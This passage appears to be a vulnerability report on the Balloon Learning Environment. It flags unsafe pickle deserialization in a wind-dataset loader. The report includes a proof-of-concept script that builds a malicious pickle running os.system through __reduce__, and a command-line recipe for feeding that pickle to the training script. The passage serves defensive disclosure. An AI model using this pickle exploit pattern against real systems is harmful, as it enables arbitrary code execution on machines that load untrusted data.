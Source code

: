         if isinstance(data, str):
          # TODO(scandido): We need to update this to load a single file, with no
          # assumed directory/file structure hardcoded.
          def _get_shard(i: int):
            fn = f'{data}/batch{i:04d}.pickle'
            with tf.io.gfile.GFile(fn, 'rb') as f:
              arr = pickle.load(f) # Vulnerable line
            return arr

          dataset_shards = []
          for i in range(200):
            dataset_shards.append(_get_shard(i))
            logging.info('Loaded shard %d', i)
          data = jnp.concatenate(dataset_shards, axis=0)

        self.dataset = data
        self._rng = jax.random.PRNGKey(rng_seed)
    ```
    3. The code snippet shows that if `data` is a string, the `pickle.load(f)` function is directly called on the file content without any checks. This is a classic unsafe deserialization vulnerability.

- Security Test Case:
    1. Create a malicious pickle file (`malicious.pickle`) that executes arbitrary code when loaded. For example, it could execute `os.system('touch /tmp/pwned')`.
    ```python
    import pickle
    import os

    class PickleRCE(object):
        def __reduce__(self):
            return (os.system, ('touch /tmp/pwned',))

    shellcode = PickleRCE()
    with open('malicious.pickle', 'wb') as f:
        pickle.dump(shellcode, f)
    ```
    2. Create a directory named `malicious_dataset` and place the `malicious.pickle` file inside it, renaming it to `batch0000.pickle`. Create dummy `batchXXXX.pickle` files for the rest shards to avoid file not found errors during iteration, these dummy files can be empty.
    3. Run the training script `learn_wind_field_generator.py` and set the `offline_winds_dataset_path` gin parameter to the directory `malicious_dataset` using gin bindings. For example:
    ```bash
    python -m balloon_learning_environment.generative.learn_wind_field_generator --offline_winds_dataset_path=./malicious_dataset --gin_bindings="generative.dataset_wind_field_reservoir.DatasetWindFieldReservoir.data='malicious_dataset'"
    ```
    4. After running the script, check if the file `/tmp/pwned` exists. If it exists, it confirms that the code from the malicious pickle file was executed, demonstrating arbitrary code execution.

### Vulnerability Name: Arbitrary Code Execution via Unsafe Agent Loading in Evaluation Script
